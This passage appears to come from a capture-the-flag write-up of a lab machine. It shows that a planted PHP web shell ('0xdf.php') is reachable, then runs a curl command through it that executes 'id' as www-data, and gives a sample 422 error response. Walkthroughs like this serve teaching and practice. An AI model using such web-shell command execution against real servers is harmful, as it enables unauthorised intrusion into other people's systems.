 On sending, the request hangs for a second, and then returns a 502 Bad Gateway
failure:

![image-20230915102458063](../img/image-20230915102458063.png)

This is a sign of success, as `0xdf.php` is there:

    
    
    oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php?cmd=id
    caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
     CAPTION 120x120 120x120+0+0 16-bit sRGB 2.070u 0:02.076
    

If there is something wrong with the request, the response looks like this:

    
    
    HTTP/1.1 422 Unprocessable Content
    Server: nginx/1.18.0 (Ubuntu)
    Content-Type: text/html; charset=UTF-8
    Connection: close
    Cache-Control: no-cache, private
    Date: Thu, 12 Oct 2023 21:47:03 GMT
    X-RateLimit-Limit: 3600
    X-RateLimit-Remaining: 3599
    Access-Control-Allow-Origin: *
    Content-Length: 14
    